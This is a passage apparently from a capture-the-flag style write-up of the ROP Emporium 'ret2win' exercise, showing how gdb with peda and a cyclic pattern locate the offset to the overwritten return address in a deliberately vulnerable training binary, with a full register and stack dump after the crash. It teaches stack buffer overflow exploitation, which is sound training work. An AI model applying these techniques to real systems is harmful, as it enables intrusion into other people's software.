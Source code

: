 ```bash

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> 
Program received signal SIGSEGV, Segmentation fault.

```

##### Command Explaination

* `gdb ret2win` : This will open the gdb with ret2win binary for the processing.
* `pattern_create 100 input` : This will create a offset pattern of the length provided, in our case it's 100. `input` is the file where the offset willbe written.
* `r < input` : This will run the binary ret2win and gives the `input` file as input.


# Analyzing the offsets

Let's see the peda's work and informatio it provided us:-

```bash
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffde10 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBX: 0x0 
RCX: 0x1f 
RDX: 0x7ffff7dd18d0 --> 0x0 
RSI: 0x7fffffffde10 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RDI: 0x7fffffffde11 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffde38 ("AA0AAFAAb")
RIP: 0x400810 (<pwnme+91>:	ret)
R8 : 0x0 
R9 : 0x0 
R10: 0x602010 --> 0x0 
R11: 0x246 
R12: 0x400650 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdf20 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400809 <pwnme+84>:	call   0x400620 <fgets@plt>
   0x40080e <pwnme+89>:	nop
   0x40080f <pwnme+90>:	leave  
=> 0x400810 <pwnme+91>:	ret    
   0x400811 <ret2win>:	push   rbp
   0x400812 <ret2win+1>:	mov    rbp,rsp
   0x400815 <ret2win+4>:	mov    edi,0x4009e0
   0x40081a <ret2win+9>:	mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffde38 ("AA0AAFAAb")
0008| 0x7fffffffde40 --> 0x400062 --> 0x1f8000000000000 
0016| 0x7fffffffde48 --> 0x7ffff7a05b97 (<__libc_start_main+231>:	mov    edi,eax)
0024| 0x7fffffffde50 --> 0x1 
0032| 0x7fffffffde58 --> 0x7fffffffdf28 --> 0x7fffffffe2b4 ("/home/robin/ROP-Emporium/ret2win")
0040| 0x7fffffffde60 --> 0x100008000 
0048| 0x7fffffffde68 --> 0x400746 (<main>:	push   rbp)
0056| 0x7fffffffde70 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400810 in pwnme ()
```